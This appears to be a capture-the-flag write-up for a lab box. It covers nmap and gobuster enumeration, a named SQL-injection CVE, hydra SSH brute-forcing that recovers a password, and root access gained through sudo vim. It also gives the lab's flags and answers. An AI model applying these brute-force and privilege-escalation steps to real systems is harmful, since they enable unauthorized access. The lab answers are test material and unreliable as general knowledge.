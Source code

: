 # Simple CTF writeup
The first task when beggining a CTF is enumeration

## Nmap 
```bash
namp -T4 -sV 10.10.140.110
```
The Nmap flag ```-sV``` is useful as it returns details to do with the versions of services running on the target 

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```
### How many services are running under port 1000?
We have found 3 ports 21, 80, 2222. 
since 2222 is greater than 1000 the answer is
> 2
### What is running on the higher port?
> ssh

## Port 80: Apache
![image](./ScreenShots/webserver.png)
Let's continue enumeration using Gobuster

## Gobuster
```
gobuster dir -u 10.10.140.110 -w /usr/share/wordlists/dirb/common.txt
```
To find Directories in the web server
```
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 301]
/simple               (Status: 301) [Size: 315] [--> http://10.10.140.110/simple/]
```
_Useful findings : ``/robots.txt``, ``/simple``_

### /robots.txt
![image](./ScreenShots/robots.png)

### /simple
![image](./ScreenShots/simple.png)
##### It appears that this site is using content management system(CMS). I scrolled down the page, and was able to find what version of this software is
![image](./ScreenShots/exploitdb.png)
##### After searching for the version in exploit db ,I found that there is an sql injuction vulnerablity in that version
![image](./ScreenShots/exploit.png)
### What's the CVE you're using against the application?
> CVE-2019-9053

### To what kind of vulnerability is the application vulnerable?
The shorthand for sqlInjuction is sqli
> sqli

```python3 46635.py -u http://10.10.117.187/simple/ -w rockyou.txt -c```
but its not working properly since it is built for older version of python
so use hydra to bruteforce username and password
```bash
hydra -l usernames.txt -P best110.txt ssh://10.10.140.110:2222 -t 4
```
```
[DATA] attacking ssh://10.10.140.110:2222/
[2222][ssh] host: 10.10.140.110   login: mitch   password: secret
```
### What's the password?
> secret

### Where can you login with the details obtained?
we got ssh user name and password 
> ssh
## Login into ssh
```
ssh mitch@10.10.140.110 -p 2222
pasword: secret
```
![image](./ScreenShots/ssh.png)

### What's the user flag?
![image](./ScreenShots/user.png)
```
cat user.txt
```
> G00d j0b, keep up!

### Is there any other user in the home directory? What's its name?
```
ls /home
```
![image](./ScreenShots/users.png)
> sunbath

### What can you leverage to spawn a privileged shell?
```
sudo -l
```
![image](./ScreenShots/vim.png)
> vim
## Escalate Privilage
To escalate privilage we need to exploit vim
```
sudo vi
```
![image](./ScreenShots/sudo.png)
### What's the root flag?
![image](./ScreenShots/root.png)
> W3ll d0n3. You made it!
